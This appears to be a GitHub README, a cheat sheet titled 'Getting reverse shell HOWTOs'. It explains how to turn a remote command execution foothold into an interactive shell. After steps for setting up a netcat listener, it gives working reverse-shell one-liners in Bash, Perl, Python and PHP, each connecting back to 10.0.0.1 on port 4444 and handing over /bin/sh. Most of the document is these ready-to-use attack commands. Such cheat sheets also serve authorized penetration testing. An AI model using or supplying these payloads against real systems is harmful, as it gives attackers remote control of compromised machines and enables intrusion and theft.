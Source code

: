 # Getting reverse shell HOWTOs &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/shell1.png" width="30"/>
After having success with a remote command execution vulnerability, you'll probably wish to get an interactive shell. You will see that your target cannot execute any reverse shell scripting languages; it's limited to the current vulnerable application language.  
  
Before starting, you will need netcat installed on your listener host.
  
**Ubuntu/Debian distrib:** *sudo apt-get install nc -y*  
**Other Linux distros (CentOS, RedHat, ...):** *yum install nc -y*  
Now that netcat is successfully installed on your listener host, type: *nc -l -v 4444*
  
You will find below different ways in obtaining a reverse shell in multiple langs.  
  
## Bash &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/bourne_again.jpg" width="20"/>
Based that your local IP would be *10.0.0.1* and listener port on netcat is *4444*
```
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```
  
## Perl &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/perl.jpg" width="50"/>
```
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
  
## Python &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/python.jpg" width="70"/>
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/php.png" width="40"/>
Assuming that the TCP connection is using file descriptor 3. If it doesn't work, try 4, 5, 6...
  
```
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
